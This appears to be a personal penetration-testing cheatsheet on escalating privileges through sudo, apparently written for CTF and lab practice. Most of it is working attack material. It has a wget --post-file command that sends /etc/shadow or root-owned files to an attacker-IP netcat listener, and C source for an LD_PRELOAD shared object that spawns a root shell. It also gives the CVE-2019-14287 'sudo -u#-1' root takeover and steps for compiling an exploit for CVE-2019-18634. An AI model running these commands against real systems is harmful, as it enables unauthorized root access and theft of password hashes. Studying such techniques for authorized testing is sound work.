 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Abusing Sudo

Sudo Shell Escaping

Checking Sudo Rights for Current User

~~~bash
sudo -l
~~~

Lists all applications that can be run as root or another user that potentially has higher privileges (with or without a password).

GTFOBins

GTFOBins Github.io

Escaping underprivileged shell cheatsheet

Intended Functionality

Using a binary that does not have the ability to gain a privileged shell, but does have sudo capability when viewing in “sudo -l”.

ex. You have sudo capability for wget in the "sudo -l" output:

Attacker Machine:

~~~bash
nc -vnlp 4444
~~~

Victim Machine:

~~~bash
sudo wget --post-file=/etc/shadow <ATTACKER-IP> 4444
~~~

This example will dump the shadow file on to the attacker's netcat session and will be readable by the attacker machine and can then be used to decrypt the shadow file. Please note that this can be used to read other files that are not readily accessible by the underprivileged user.

ex. You know that there is a file named flag.txt located in /root. You can --post-file=/root/flag.txt instead of shadow to obtain the root flag.
sudo -l

LD_PRELOAD

LD_PRELOAD may show up when performing a “sudo -l” command. This will allow us to create our own custom SO to escape the underprivileged account and run as root.

C Code for the SO (shell.c):

~~~c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
~~~

After saving this file on the victim machine, compile using GCC:

~~~bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
~~~

After compiling the SO file from the C Code, you will need to execute LD_PRELOAD with the SO file (with full path to SO file) as sudo against a service that you have sudo rights to:

~~~bash
sudo LD_PRELOAD=/home/user/shell.so apache2
~~~

SUDO EXPLOIT - CVE-2019-14287

~~~bash
#Taking over root account
sudo -u#-1 /bin/bash
# OR
sudo -u#4294967295 /bin/bash

#Taking over another user account
sudo -u#+1000 /bin/bash
~~~

SUDO BUFFER OVERFLOW - CVE-2019-18634

Begin by checking out the sudoers file at "/etc/sudoers" and look for an uncommented section that contains the word “pwfeedback”

THIS IS ONLY VULNERABLE FOR VERSIONS 1.8.26 OR EARLIER WITH "pwfeedback" ENABLED

Determining version of sudo and if pwfeedback is enabled: 

~~~bash
#Determining the version of sudo
sudo -V
#Checking if we can read the sudoers file for the pwfeedback option
cat /etc/sudoers
#If unable to access the sudoers file, run “sudo su root” and see if you get asterisks when typing in a password
sudo su root
~~~

Exploit Code:

Compile the exploit.c file by performing the following command:

~~~bash
gcc exploit.c -o exploit
~~~

https://github.com/saleemrashid/sudo-cve-2019-18634


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

